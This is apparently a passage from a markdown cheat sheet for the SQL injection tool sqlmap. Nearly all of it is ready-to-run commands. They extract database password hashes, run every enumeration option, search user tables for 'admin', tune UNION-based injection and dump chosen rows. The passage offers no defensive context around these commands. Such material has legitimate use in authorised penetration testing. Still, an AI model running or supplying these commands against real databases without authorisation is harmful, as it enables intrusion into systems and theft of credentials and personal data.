 ```bash

# Get user passwords
sqlmap -r request.txt --passwords

# Perform all enumeration options
sqlmap -r request.txt --all --batch
```

### Advanced Table and Column Operations
```bash
# Get schema of all tables
sqlmap -r request.txt --schema

# Search for specific string in table/column
sqlmap -r request.txt --search -T users -C username -S "admin"

# List specific columns only
sqlmap -r request.txt -D database -T table -C "username,password,email"
```

### Union-Based Injection Options
```bash
# Specify number of columns for UNION
sqlmap -r request.txt --union-cols=5

# Specify character for UNION-based injections
sqlmap -r request.txt --union-char="NULL"

# Specify table for UNION (required for some DBMS like PostgreSQL)
sqlmap -r request.txt --union-from="information_schema.tables"

# Technique specification (B=Boolean, E=Error, U=Union, S=Stacked, T=Time, Q=Inline)
sqlmap -r request.txt --technique=BEUST
```

## Data Extraction & Formatting

### Row-Specific Extraction
```bash
# Specify starting row for data dumping
sqlmap -r request.txt -D database -T table --start=10

# Specify ending row for data dumping
sqlmap -r request.txt -D database -T table --stop=20

# Combine start and stop
sqlmap -r request.txt -D database -T table --start=10 --stop=20
```

### Conditional Data Extraction
```bash
# Conditional enumeration with WHERE clause
sqlmap -r request.txt -D database -T users --where="id>100"

# Exclude system databases
sqlmap -r request.txt --dump-all --exclude-sysdbs
```
